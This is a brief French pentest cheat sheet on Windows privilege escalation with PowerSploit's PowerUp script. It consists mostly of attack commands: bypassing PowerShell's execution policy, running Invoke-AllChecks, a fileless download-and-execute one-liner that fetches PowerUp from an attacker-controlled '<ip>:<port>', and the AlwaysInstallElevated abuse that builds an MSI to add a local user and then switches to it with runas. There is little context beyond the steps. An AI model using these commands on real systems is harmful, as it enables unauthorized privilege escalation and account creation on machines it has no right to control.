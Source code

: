 
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1



1. Changer la politique d'execution des scripts

```powershell
Set-ExecutionPolicy Bypass -Scope Process
```

2. Importer le module

```powershell
Import-Module .\PowerUp.ps1
```

3. Tous les checks

```powershell
Invoke-AllChecks
```


#Fileless 

```powershell
iex(New-Object Net.WebClient).DownloadString('http://<ip>:<port>/PowerUp.ps1'); Invoke-AllChecks
```


## Always Install Elevated

1. Créer "User-AddMSI"

```powershell-session
Write-UserAddMSI
```

3. Executer UserAddMSI et renseigner les infos
4. runas avec le new user

```cmd
runas /user:user cmd
```


